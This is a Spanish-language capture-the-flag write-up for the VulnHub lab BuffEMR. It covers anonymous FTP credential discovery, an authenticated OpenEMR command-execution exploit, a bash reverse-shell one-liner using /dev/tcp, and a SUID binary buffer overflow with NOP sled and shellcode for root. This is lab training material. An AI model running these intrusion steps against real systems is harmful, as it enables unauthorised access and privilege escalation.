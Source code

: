 ```yaml
---
layout: default
title: BuffEMR CTF
parent: VulnHub
---
```

# BuffEMR
{: .no_toc }

## Contenidos
{: .no_toc .text-delta}

1. TOC
{:toc}

---

# Fase de reconocimientos

Si tiramos nuestro script base de reconocimiento, podremos observar lo siguiente:
![](/assets/img/VulnHub/BuffEMR/B0.png)

Tendremos los puertos:
- **SSH**{:.text-red-000}, perteneciente al puerto 22.
- **FTP**{:.text-red-000}, perteneciente al puerto 21.
- **HTTP**{:.text-red-000}, perteneciente a un servicio web, alojado en el puerto 80.

Si tiramos un script de reconocimiento para el puerto **FTP**, nos toparemos algo interesante:
![](/assets/img/VulnHub/BuffEMR/B1.png)

Encontramos que tenemos acceso **anonimo** al servicio fpt, por lo que veremos que podremos encontrar. Usaremos el comando
```bash
ftp anonymous@<IP>
```
Si vamos al directorio **/tests**{:.text-yellow-100}, nos toparemos con un archivo que contiene credenciales de acceso para el usuario **admin**.
![](/assets/img/VulnHub/BuffEMR/B2.png)

Si vemos, la pagina web que tiene por defecto es el mensaje de bienvenida por apache, por lo que nos queda aplicar **web fuzzing**{:.text-green-100}.
![](/assets/img/VulnHub/BuffEMR/B3.png)

Nos encontramos un login en la ruta, **/openemr**{:.text-red-100}. Por lo que introduciremos las credenciales que encontramos, encontrando la version:
![](/assets/img/VulnHub/BuffEMR/B4.png)
# Intrusion
Si buscamos por exploits, encontraremos uno que nos permite la **ejecucion remota de comandos** estando autenticados:
![](/assets/img/VulnHub/BuffEMR/B5.png)
![](/assets/img/VulnHub/BuffEMR/B6.png)

Podemos ver que tenemos ejecucion remota de comandos, por lo que nos queda ganar acceso al servidor.
```bash
bash -c "bash -i >&/dev/tcp/<IP>/PUERTO 0>&1"
```
![](/assets/img/VulnHub/BuffEMR/B7.png)

# Usuario Buffemr
Ahora bien, tendremos que hallar una forma de subir privilegios al usuario, si vamos a la ruta **/var**, encontraremos un archivo que dice **user.zip**, por lo que lo pasaremos a nuestra maquina, pero veremos que esta cifrado, por lo que nos toca encontrar una password... Esta la encontraremos en la ruta de obtenida del servicio **FTP**{:.text-yellow-100}, un archivo llamado **keys.sql**{:.text-red-000}.
![](/assets/img/VulnHub/BuffEMR/B8.png)

Ya tendremos las credenciales del usuario, por lo que entraremos por ssh.
![](/assets/img/VulnHub/BuffEMR/B9.png)

Si buscamos archivos que podremos ejecutar como SUID, encontraremos un archivo en la ruta **/opt**{:.text-red-100}.
![](/assets/img/VulnHub/BuffEMR/B10.png)

Por lo que nos queda traer este archivo a nuestra maquina, lo que podremos ver que es un ejecutable.
![](/assets/img/VulnHub/BuffEMR/B11.png)
![](/assets/img/VulnHub/BuffEMR/B12.png)
# BoF
Si lo ejecutamos, podremos ver que nos pide un argumento, por lo que si comenzamos a tratar de sobrecargarlo, veremos que en algun punto existe un error **SEGMENTATION FAULT**{:.text-red-100}. Por lo que se intentaremos un **BoF**{:.text-yellow-100}.
![](/assets/img/VulnHub/BuffEMR/B13.png)

Si usamos un debugger, podremos ver que se sobreescriben ciertas partes importantes de la memoria:
![](/assets/img/VulnHub/BuffEMR/B14.png)

Trataremos de crear un patron para luego filtrar por una cadena y dar con los bytes necesarios para toparnos con el **EIP**.

![](/assets/img/VulnHub/BuffEMR/B15.png)

Encontraremos que  los bytes necesarios para dar con el **EIP** son **512**{:.text-red-000}.

![](/assets/img/VulnHub/BuffEMR/B16.png)

Por lo que ahora buscaremos una shellcode, en este caso usare esta: [**SHELLCODE x86**](https://shell-storm.org/shellcode/files/shellcode-606.html){:.text-yellow-100}.

Por lo que nos queda restar los **512** bytes, con los 33 de nuestra shellcode. Para luego, buscar dentro del stack de la memoria.
> DATO IMPORTANTE, no olvidemos reemplazar las **A**, por **NOPs** -> "\x90".

![](/assets/img/VulnHub/BuffEMR/B17.png)

Si vemos, dentro de las direcciones del stack, podremos visualizar nuestros **NOps**{:.text-green-100}, por lo que solo nos quedaria buscar una direccion a donde apuntar el **EIP**{:.text-red-000}.

Por lo que si ejecutamos esta vez, podremos ver que nos ejecuta el comando **/bin/bash**.
![](/assets/img/VulnHub/BuffEMR/B18.png)

## Obteniendo el usuario ROOT

Por lo que podemos comprobar que hemos realizado un BoF de forma exitosa, solo nos queda ejecutarlo dentro del binario con SUID.
![](/assets/img/VulnHub/BuffEMR/B19.png)

# FIN
